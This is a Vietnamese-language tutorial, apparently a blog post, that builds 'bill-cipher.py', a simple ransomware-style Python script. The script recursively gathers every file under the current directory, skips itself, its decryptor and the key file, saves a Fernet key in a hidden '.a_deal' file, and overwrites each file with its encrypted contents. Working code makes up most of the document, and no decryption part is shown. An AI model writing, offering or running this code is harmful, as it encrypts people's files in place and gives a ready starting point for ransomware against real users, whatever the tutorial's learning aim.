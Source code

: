 ```py
import os
from cryptography.fernet import Fernet
```

Chúng ta lưu các file trên máy mà chúng ta tìm được trong 1 danh sách gọi là `files`.

Chúng ta cần check xem cái "file" đó là 1 file bình thường hay là 1 folder. Chúng ta có thể dùng hàm `os.path.isfile()` để check. Nếu như "file" đó không phải là file mà là folder thì chúng ta cần đi vào trong folder đó và check các file trong folder đó. Nếu folder đó có folder thì sẽ tiếp tục vào folder trong folder đó.

Sau khi chúng ta tìm đường dẫn của các file, chúng ta sẽ lưu đường dẫn tới các file đó trong danh sách `files`.

Chúng ta cũng cần tránh không lưu chương trình mã hóa, giải mã và key của mình trong lúc tìm kiếm file bởi vì nếu như chúng ta mã hóa file giải mã và file key thì sau này sẽ không giải mã các file được.

```py
# bill-cipher.py
def find_files():
    files = []
	
	for file in os.listdir():
		if file == "bill-cipher.py" or file == ".a_deal" or file == "bill-decipher.py":
			continue
		
		if os.path.isfile(file):
			files.append(file)
		else:
			os.chdir(file)
			sub_files = find_files()
			os.chdir("..")
			for subfile in sub_files:
				path = file + "/" + subfile
				files.append(path)
			
	return files

files = find_files()
```

Tiếp theo, chúng ta cần tạo key để mã hóa các file chương trình của mình đã tìm được. Key này sẽ được lưu trong `.a_deal` (mình lưu trong file thế này bởi vì các file có chấm ở đầu tên file sẽ được ẩn trên các hệ thống Unix).

Sau khi chúng ta tạo key thì chúng ta sẽ cần mở các file bằng đường dẫn mình lưu trong `files`, đọc file và mã hóa nội dung mình đọc được từ file, rồi viết nội dung đã mã hóa vào lại file. Mình đọc và viết ở chế độ nhị phân bởi vì thuật toán Fernet được dùng cho nhị phân.

```py
key = Fernet.generate_key()

with open(".a_deal", "wb") as deal:
	deal.write(key)

for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_encrypted = Fernet(key).encrypt(content)

	with open(file, "wb") as f:
		f.write(content_encrypted)
```
